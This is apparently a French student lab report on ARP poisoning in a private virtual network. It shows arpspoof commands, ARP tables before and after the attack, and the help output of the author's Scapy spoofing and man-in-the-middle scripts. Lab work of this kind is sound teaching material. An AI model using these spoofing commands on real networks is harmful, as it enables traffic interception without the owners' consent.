 # Partie IV : ARP Poisoning

## 1. Simple ARP spoof

- Table ARP de `node2.tp1.my`
```
[vm-2@node2 ~]$ ip n s
10.1.1.1 dev enp1s0 lladdr 52:54:00:da:33:63 DELAY 
10.1.1.100 dev enp1s0 lladdr 52:54:00:2d:8b:c8 STALE 
10.1.1.253 dev enp1s0 lladdr 52:54:00:ad:a7:59 STALE 
```

- Début de l'ARP Poisoning pour associer l'address MAC de `node1.tp1.my` à l'IP de `dhcp.tp1.my`
```
[vm-1@node1 ~]$ sudo arpspoof -t 10.1.1.101 10.1.1.253
52:54:0:2d:8b:c8 52:54:0:7b:ae:9d 0806 42: arp reply 10.1.1.253 is-at 52:54:0:2d:8b:c8
52:54:0:2d:8b:c8 52:54:0:7b:ae:9d 0806 42: arp reply 10.1.1.253 is-at 52:54:0:2d:8b:c8
52:54:0:2d:8b:c8 52:54:0:7b:ae:9d 0806 42: arp reply 10.1.1.253 is-at 52:54:0:2d:8b:c8
52:54:0:2d:8b:c8 52:54:0:7b:ae:9d 0806 42: arp reply 10.1.1.253 is-at 52:54:0:2d:8b:c8
```

- Résulat sur la table ARP de `node2.tp1.my`, on remarque que l'address MAC pour 10.1.1.100 (`node1`) et 10.1.1.253 (`dhcp`) est la même !
```
[vm-2@node2 ~]$ ip n s
10.1.1.1 dev enp1s0 lladdr 52:54:00:da:33:63 DELAY 
10.1.1.100 dev enp1s0 lladdr 52:54:00:2d:8b:c8 STALE 
10.1.1.253 dev enp1s0 lladdr 52:54:00:2d:8b:c8 REACHABLE 
```
- 🦈 le [pcap](./pcaps/arp_spoof_1.pcap)  
On remarque que `node1` spam de réponse ARP `node2` (sans changer la MAC src de la trame qui reste celle de `node1` d'ailleurs).  
Lorsque l'on stop la commande `arpspoof`, on remarque que `node1` effectue une dernière vague de spam pour fournir la vrai address MAC associé à l'IP de `dhcp`


## 2. Avec Scapy

- Le [script](./arp_spoof.py), avec une gestion d'argument
```
sudo python3 arp_spoof.py --help

usage: arp_spoof.py [-h] [--my-MAC MY_MAC] [--target-IP TARGET_IP] [--target-MAC TARGET_MAC] [--spoofed-IP SPOOFED_IP]

Script avec des variables configurables.

options:
  -h, --help            show this help message and exit
  --my-MAC MY_MAC       Votre adresse MAC (par défaut: 52:54:00:2d:8b:c8)
  --target-IP TARGET_IP
                        Adresse IP cible (par défaut: 10.1.1.101)
  --target-MAC TARGET_MAC
                        Adresse MAC cible (par défaut: 52:54:00:7b:ae:9d)
  --spoofed-IP SPOOFED_IP
                        Adresse IP usurpée (par défaut: 10.1.1.253)
```
=> Execution du script (les paramètres par défault match mon infra)
```
sudo python3 arp_spoof.py
```

- Table ARP de `node2` :
=> Avant :
```
[vm-2@node2 ~]$ ip n s
10.1.1.253 dev enp1s0 lladdr 52:54:00:ad:a7:59 REACHABLE 
10.1.1.100 dev enp1s0 lladdr 52:54:00:2d:8b:c8 STALE 
10.1.1.1 dev enp1s0 lladdr 52:54:00:da:33:63 REACHABLE 
```

=> Après :
```
[vm-2@node2 ~]$ ip n s
10.1.1.253 dev enp1s0 lladdr 52:54:00:2d:8b:c8 REACHABLE 
10.1.1.100 dev enp1s0 lladdr 52:54:00:2d:8b:c8 STALE 
10.1.1.1 dev enp1s0 lladdr 52:54:00:da:33:63 REACHABLE 
```

- Le [pcap](./pcaps/arp_spoof_2.pcap) (ça spam fort)


## 3. Man in the middle

- Le nouveau [script](./scripts/arp_spoof_mit.py)
```
[vm-1@node1 ~]$ sudo python3 arp_spoof_mit.py --help
usage: arp_spoof_mit.py [-h] [--my-MAC MY_MAC]
                        [--target1-IP TARGET1_IP]
                        [--target1-MAC TARGET1_MAC]
                        [--target2-IP TARGET2_IP]
                        [--target2-MAC TARGET2_MAC]

Script avec des variables configurables.

optional arguments:
  -h, --help            show this help message and exit
  --my-MAC MY_MAC       Votre adresse MAC (par défaut:
                        52:54:00:2d:8b:c8)
  --target1-IP TARGET1_IP
                        Adresse IP cible numéro 1 (par défaut:
                        10.1.1.101)
  --target1-MAC TARGET1_MAC
                        Adresse MAC cible numéro 1 (par défaut:
                        52:54:00:7b:ae:9d)
  --target2-IP TARGET2_IP
                        Adresse IP cible numéro 2 (par défaut:
                        10.1.1.253)
  --target2-MAC TARGET2_MAC
                        Adresse MAC cible numéro 2 (par défaut:
                        52:54:00:ad:a7:59)
```
=> Exécution du script : `sudo python3 arp_spoof_mit.py`


- le 🦈 [pcap](./pcaps/arp_mitm_1.pcap)
=> j'ai mis un `sleep(2)` entre chaque envoie des trames ARP (pour faciliter la lecture)
=> On remarque bien que les 3 premiers pings (`node2` vers `dhcp`) est bien reçu et `node1` assure bien la transition
=> Idem pour les 3 autres pings (`dhcp` vers `node2`)

[Partie 5 Playing DHCP](./partie_5_playing_dhcp.md)